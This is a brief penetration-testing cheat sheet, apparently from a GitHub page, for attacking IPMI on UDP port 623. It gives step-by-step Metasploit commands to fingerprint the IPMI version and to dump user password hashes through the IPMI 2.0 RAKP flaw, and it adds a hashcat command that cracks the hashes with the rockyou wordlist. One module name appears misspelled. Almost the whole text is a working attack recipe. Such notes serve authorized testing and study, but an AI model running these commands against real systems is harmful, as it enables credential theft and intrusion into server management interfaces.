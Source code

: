 ### Resource: https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/

### UDP port: 623 (asf-rmcp)

### Identify version using Metasploit

#### 1) msfconsole

#### 2) use auxiliary/scanner/ipmi/impi_version

#### 3) set RHOSTS HOST

#### 4) run

### Then depending on the IPMI version, we can abuse the vulnerabilities below:

### Dump password hashes for users with Metasploit (IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval)

#### 1) msfconsole

#### 2) use auxiliary/scanner/ipmi/ipmi_dumphashes

#### 3) set RHOSTS HOST

#### 4) run

#### 5) hashcat -m 7300 -a 0 hash /usr/share/wordlists/rockyou.txt

